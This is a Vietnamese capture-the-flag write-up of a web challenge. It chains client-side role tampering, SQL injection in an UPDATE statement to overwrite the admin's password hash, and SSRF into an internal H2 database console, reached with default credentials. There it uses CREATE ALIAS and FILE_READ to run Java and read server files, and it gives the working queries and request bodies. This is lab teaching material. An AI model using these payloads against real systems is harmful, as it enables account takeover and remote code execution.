

## Description



## Recon

Ứng dụng phân quyền dựa trên tham số `user`. Khi sửa `user=admin`, giao diện hiện thêm nút **Staff Portal** - tức là quyền được xác định phía client và có thể tự nâng lên admin:





## SQLi

Trang Staff Portal có chức năng cập nhật điểm (`points`). Khi chèn ký tự đặc biệt vào tham số, server trả về lỗi và làm lộ nguyên câu truy vấn:



Thông báo lỗi làm lộ câu SQL bên dưới:

```sql
UPDATE foo SET `points` = '0' WHERE `id` = '1'
```

Biết được cấu trúc câu `UPDATE`, ta có thể lợi dụng điểm chèn này để cập nhật sang bảng khác (SQL injection trên câu `UPDATE`).

## Đổi mật khẩu admin

Mục tiêu là chiếm tài khoản admin thật. Trước hết tạo một bcrypt hash cho mật khẩu `x`, sau đó dùng SQLi để ghi đè trường `password` của tài khoản admin bằng hash này:

```bash
htpasswd -bnBC 5 '' x | cut -d: -f2
```

Query:

```sql
UPDATE tbl_users
SET password='$2y$05$.FTdGXVOgCFtpDZLUi66LObVqiJPnnZj1YXRQ6P.P6BJ0Pyxi8NfW'
WHERE username='administrator'
```



Sau khi đổi mật khẩu thành công, đăng nhập vào tài khoản admin với mật khẩu `x`.

## Log admin

Trong khu vực admin có chức năng xem log, chức năng này cho phép nhập URL để server tự gửi request và trả về nội dung - đây chính là điểm SSRF (server-side request forgery):



Gửi thử (Send):



Trong `body` của response có đoạn:

```html
location.href = 'login.jsp?jsessionid=3bac1bb3252212b1704d9824dd9d803b'
```

Tức là bên trong hệ thống có một dịch vụ H2 database console đang chạy. `login.jsp` là trang hiển thị form đăng nhập của console đó. Dùng SSRF để truy cập tới `login.jsp` và lấy về nội dung form:



Response có:

```html
method="post" action="login.do?jsessionid=3bac1bb3252212b1704d9824dd9d803b" id="login"
```

Vì đây là form đăng nhập H2, mình gửi tiếp request `POST` tới `login.do` với các field tương ứng trong form: `driver=org.h2.Driver`, `url=jdbc:h2:mem:test`, `user=sa` và `password=` (rỗng).

```http
{
  "url": "http://127.0.0.1:4000/login.do?jsessionid=3bac1bb3252212b1704d9824dd9d803b",
  "method": "POST",
  "body": "language=en&setting=Generic+H2+(Embedded)&name=Generic+H2+(Embedded)&driver=org.h2.Driver&url=jdbc:h2:mem:test&user=sa&password="
  "headers": {
    "Content-Type": "application/x-www-form-urlencoded"
  },
}
```



Đây là cấu hình mặc định của H2 Embedded, tương đương với việc chọn `Generic H2 (Embedded)` và đăng nhập bằng user mặc định `sa` không mật khẩu. Đăng nhập thành công đồng nghĩa với việc ta điều khiển được H2 console qua SSRF.

H2 cho phép định nghĩa hàm Java trực tiếp bằng `CREATE ALIAS`, đây là con đường để thực thi code Java (đọc/liệt kê file trên máy chủ). Ta tạo alias `LISTDIR` bọc `java.io.File.list()` để liệt kê thư mục `/data`:

Query:

```sql
CREATE ALIAS IF NOT EXISTS LISTDIR AS $$
String listDir(String path) throws Exception {
    return java.util.Arrays.toString(new java.io.File(path).list());
}
$$;
```

```http
{
  "url": "http://127.0.0.1:4000/query.do?jsessionid=3bac1bb3252212b1704d9824dd9d803b",
  "method": "POST",
  "body": "sql=CREATE%20ALIAS%20IF%20NOT%20EXISTS%20LISTDIR%20AS%20%24%24%20String%20listDir%28String%20path%29%20throws%20Exception%20%7B%20return%20java.util.Arrays.toString%28new%20java.io.File%28path%29.list%28%29%29%3B%20%7D%20%24%24%3B&pos=0"
  "headers": {
    "Content-Type": "application/x-www-form-urlencoded"
  },
}
```

Query:

```sql 
CALL LISTDIR('/data')
```

```http
{
  "url": "http://127.0.0.1:4000/query.do?jsessionid=3bac1bb3252212b1704d9824dd9d803b",
  "method": "POST",
  "body": "sql=CALL%20LISTDIR%28%27%2Fdata%27%29&pos=0"
  "headers": {
    "Content-Type": "application/x-www-form-urlencoded"
  },
}
```



Thấy file `f_04a5c183c5b6.flag`, tiến hành đọc file đó:

```sql
SELECT UTF8TOSTRING(FILE_READ('/data/f_04a5c183c5b6.flag')) AS FLAG
```



## Flag

```text
PTITCTF{youtu.be/5l8VZEyNRH8?si=n1c3_c00k13_9b2eaef74213}
```
